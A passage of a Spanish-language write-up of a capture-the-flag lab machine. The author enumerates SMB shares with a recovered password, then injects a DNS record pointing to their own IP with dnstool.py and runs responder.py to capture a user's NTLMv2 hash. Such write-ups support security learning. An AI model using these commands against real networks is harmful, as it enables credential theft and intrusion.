 Obtenemos una credencial válida. Compruebo si pertenece al grupo **Remote Management Users** con crackmapexec por si me pudiese conectar al equipo mediante **evil-winrm** pero no es el caso. 

Como está el servicio Samba abierto, compruebo si el usuario Tiffany.Molina tiene alguna carpeta compartida a la que se pueda acceder.

<img src="https://user-images.githubusercontent.com/55555187/162411554-80cc3d0e-23a6-4dce-9a92-7d08dbae93c2.png" title="" alt="fh2" width="632">

Veo dos carpetas interesantes, la carpeta **IT** y la carpeta **Users**. Decido listas sus contenidos recursivamente.

```
smbmap -H 10.10.10.248 -u Tiffany.Molina -p NewIntelligenceCorpUser9876 -R Users
```

![fh3](https://user-images.githubusercontent.com/55555187/162411557-5724fb8d-e44e-41c3-844a-6642c3bb13b7.png)

![fh4](https://user-images.githubusercontent.com/55555187/162411562-27340a82-8d8f-47e5-8595-4a47bce85f00.png)

En la carpeta Users no encontramos nada relevante (excepto la flag user.txt, claro) que podamos usar para pivotar, obtener una shell o escalar privilegios. Listo el contenido de la carpeta IT.

```
smbmap -H 10.10.10.248 -u Tiffany.Molina -p NewIntelligenceCorpUser9876 -R IT
```

![fh5](https://user-images.githubusercontent.com/55555187/162411563-d05f3529-b9f1-4980-9923-9e59a37392f6.png)

En esta carpeta observamos el famoso script de Ted, me lo bajo y lo examino en mi máquina.

<img src="https://user-images.githubusercontent.com/55555187/162411564-5de381fd-77f4-431d-8657-e4760c0bb2de.png" title="" alt="fh6" width="677">

Como se puede ver, lo que hace este script es ir recorriendo los **dns record** buscando los que empiezan por *web*. Investigando sobre el tema descubro que existe una utilidad llamada **dnstool.py** de **krbrelayx** que nos permite inyectar **dns records** si tenemos los permisos suficiente. Teniendo un usuario del sistema decido probar a ver si tiene dichos privilegios subiendo un dns record que apunte a mi máquina.

```
dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p NewIntelligenceCorpUser9876 10.10.10.248 -a add -r web_intelligence --data 10.10.14.38 -t A
```

![fh7](https://user-images.githubusercontent.com/55555187/162411566-5e1c79e4-6c54-404a-aa7c-4b415d27a421.png)

Como hemos podido leer en el código, el script se ejecuta cada 5 minutos, dicho script lo más probable es que esté siendo ejecutado en el contexto del usuario Ted. La idea es ponerse en escucha mediante **responder.py** (que es un envenenador de tráfico) para intentar obtener el **hash NTLMv2** del usuario que esté ejecutando el script cuando dicho script acceda a contenido de el dns record que acabamos de inyectar (es decir, mi IP) para luego intentar crackearlo y obtener una contraseña.

Me pongo en escucha mediante el responder y después de 5 minutos recibo el hash NTLMv2 del usuario **Ted.Graves**

```
responder.py -I tun0 
```
